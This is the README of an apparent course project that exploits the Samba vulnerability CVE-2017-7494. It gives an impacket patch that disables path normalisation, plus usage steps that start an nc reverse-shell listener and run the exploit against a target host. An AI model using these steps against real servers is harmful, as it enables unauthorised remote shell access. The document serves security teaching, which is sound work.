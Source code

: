 # BIT-EternalBlue-for-macOS&Linux
Exploit CVE-2017-7494 for Net Security course final Assignment. This would reveal the vulnerability of services that run in administrative priority on OS.

This bug is workable on both macOS and Linux.

## Install

Before exploit, you need to download dependencies.

```shell
/bin/bash install_requirement.sh
```

One of the most important dependencies is the `impacket` package for python. It make smb connection works.

However, in order to construct a valid request that make the samba server load our malicious module, we have to modify the original impacket.

The installation `install_requirement.sh` installs a modified version (modified by me) so **you do not have to worry about that and you are not need to do any manual modification**.

However, if you want to use some newer version or another version of `impacket`, you have to modify that package by yourself.

> Goto `impacket/impacket/smb3.py` modify line 11154 and comment following two sentences:

```python
#         fileName = fileName.replace('/', '\\') Should be comment!
        if len(fileName) > 0:
#             fileName = ntpath.normpath(fileName) Should be comment!
            if fileName[0] == '\\':
                fileName = fileName[1:]
```

## How to use

To exploit target, you need open two terminals.

Usage:

```shell
#First terminal use nc to get reverse shell
$ nc -p 23333 -l

# Second terminal to exploit target
$ python3 ./exploit.py -lhost 192.168.71.136 --rhost 192.168.71.135
```

## Uninstall

```shell
sudo -H python3 -m pip uninstall impacket
```

## Todo:
- [] macOS Samba installation guide.

A detailed process would be post in Chinese as my final assignment. If you understand Chinese, it would be fine for you. :)